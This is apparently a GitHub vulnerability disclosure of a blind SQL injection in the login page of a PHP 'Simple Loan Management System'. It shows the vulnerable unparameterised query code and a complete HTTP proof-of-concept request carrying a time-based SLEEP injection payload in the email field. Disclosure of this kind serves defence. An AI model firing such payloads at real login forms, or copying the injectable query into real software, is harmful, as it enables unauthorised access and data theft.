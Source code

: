 # Blind SQL Injection in Simple Loan Management System

## Vendor Homepage:
> https://codeastro.com/simple-loan-management-system-in-php-with-source-code/

## Affected Component
> /index.php

## Code
```php
if(isset($login))
{
  $pass=sha1($pass);
  $que=mysqli_query($conn,"select * from admin where user='$email' and pass='$pass'");
  $row=mysqli_num_rows($que);
  if($row)
			{	
				$_SESSION['admin']=$email;
				header('location:admin');
			}
		else
			{
				$err="<font color='red'>Wrong Email or Password!</font>";
			}
	}
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /SimpleLoanSystem/index.php HTTP/1.1
Content-Length: 85
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/SimpleLoanSystem/index.php
Cookie: PHPSESSID=qr4c4tv56jj7l2j77ju7tpu9h8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: keep-alive

email=admin%40mail.com'+AND+(SELECT+1+FROM+(SELECT(SLEEP(7)))a)--+&pass=x&login=Login
```

## Screenshot
![image](https://github.com/user-attachments/assets/ad087ee9-0a16-4fc2-b987-0da512fc2041)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
